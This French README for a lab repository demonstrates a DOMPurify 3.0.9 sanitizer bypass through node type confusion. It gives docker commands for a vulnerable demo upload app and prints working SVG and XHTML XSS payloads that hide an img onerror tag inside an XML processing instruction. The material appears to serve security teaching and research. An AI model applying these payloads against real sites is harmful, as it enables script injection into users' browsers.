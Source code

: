 # Dompurify 3.0.9 bypass - Node type confusion

## Lien vers l'article complet

> Un article reprenant le travail de slonser concernant le bypass de Dompurify dans sa version 3.0.9.

[https://sharpforce.gitbook.io/cybersecurity/mes-articles/2024/mai/dompurify-3.0.9-bypass-node-type-confusion](https://sharpforce.gitbook.io/cybersecurity/mes-articles/2024/mai/dompurify-3.0.9-bypass-node-type-confusion)

## Installation

```
docker build -t dompurify-3.0.9-bypass .
docker run -p 3000:3000 dompurify-3.0.9-bypass
```

![image](https://github.com/Sharpforce/cybersecurity-code/assets/6013418/75be9d65-91ce-4fc4-b561-9c6be3699627)

## Description

L'application permet de téléverser des fichiers au format HTML, SVG ou XHTML, mais la consultation de ces fichiers, bien que possible, est restreinte par une politique CSP. L'inclusion d'un tel fichier, assainie par Dompurify, au sein de la page principale, permet toutefois l'exploitation du bypass et l'exécution de code Javascript.

## Exploitation

### Fichier HTML

La vulnérabilité est exploitable seulement lorsque le noeud est de type XML. L'inclusion d'un fichier HTML permet de confirmer le bon assainissement de la part de Dompurify lorsque le noeud est de type HTML.

### Fichier SVG

Le fichier SVG suivant permet l'exploitation du bypass :
```
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.0//EN" "http://www.w3.org/TR/2001/REC-SVG-20010904/DTD/svg10.dtd">
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100" viewBox="0 0 100 100">
  <rect width="50" height="50" fill="green" />
  <?xml-stylesheet > <img src=x onerror="alert(1)"> ?>
</svg>
```

### Fichier XHTML

Le fichier XHTML suivant permet l'exploitation du bypass :
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
    <title>Exemple de document XHTML</title>
</head>
<body>
    <h1>Document XHTML</h1>
    <p>Exploitation de Dompurify 3.0.9.</p>
    <?xml-stylesheet > <img src=x onerror="alert(1)"> ?>
</body>
</html>
```

## Démo

![](https://github.com/Sharpforce/cybersecurity-code/blob/master/dompurify-3.0.9-bypass-node-type-confusion/demo/demo.gif)